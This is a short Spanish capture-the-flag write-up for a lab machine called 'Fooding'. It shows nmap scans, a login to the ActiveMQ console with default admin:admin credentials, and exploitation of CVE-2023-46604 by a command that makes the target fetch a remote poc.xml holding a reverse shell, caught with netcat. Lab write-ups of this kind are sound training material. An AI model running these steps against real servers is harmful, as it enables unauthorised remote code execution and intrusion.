

# Máquina Fooding

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80,443,1883,5672,8161,43517,61613,61614,61616 -vvv -Pn 172.17.0.2

### Entramos en la web por el puerto 8161

escribimos las credenciales admin:admin

### Intrusión

Al momento de ingresar me doy con la sorpresa que está corriendo un apache activemq 5.15.15

entonces busqué un exploit y encontré el siguiente:

https://github.com/evkl1d/CVE-2023-46604, descargué el exploit en mi máquina linux, el exploit me indica que debo iniciar un servidor web en la carpeta dónde está el poc.xml (que contiene una reverse shell), ponerme en escucha con netcat por el puerto que indiqué en el poc.xml y luego ejecutar el comando:

python exploit.py -i 172.17.0.2 -u  http://172.17.0.1/poc.xml

